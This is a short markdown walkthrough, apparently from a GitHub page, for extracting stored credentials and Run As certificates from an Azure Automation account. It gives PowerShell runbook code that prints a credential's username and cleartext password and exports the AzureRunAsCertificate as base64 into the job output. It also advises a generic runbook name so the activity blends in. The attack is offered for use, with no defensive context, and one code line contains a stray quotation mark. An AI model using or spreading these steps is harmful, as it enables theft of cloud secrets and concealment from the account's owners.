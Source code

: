 # Automation Accounts Credentials Extraction

## Steps

### 1) First, we will need to create a new runbook in the account. Ideally, we would name this something generic, such as AzureAutomationTutorials, to blend in.

### 2) This runbook will cast the Cred-1 credential item to a variable, then output the username and password to the job output:

 - $myCredential = Get-AutomationPSCredential -Name 'Cred-1'

 - $userName = $myCredential.UserName

 - $password = $myCredential.GetNetworkCredential().Password

 - $userName

 - $password

### 3) We will follow a similar process for exporting the attached Automation account Run as certificates:

 - $RunAsCert = Get-AutomationCertificate -Name 'AzureRunAsCertificate'

 - $CertificatePath = Join-Path $env:temp RunAsCertificate.pfx

 - $Cert = $RunAsCert.Export('pfx','CertificatePassword')

 - Set-Content -Value $Cert -Path $CertificatePath -Force -Encoding Byte | Write-Verbose

 - $base64string = [Convert]::ToBase64String([IO.File]::ReadAllBytes('$CertificatePath))

 - $base64string


### 4) Finally, we can review the job output to recover the credentials. The certificates can be converted back to pfx files from the Base64 strings, and the stored credentials should be available in cleartext.

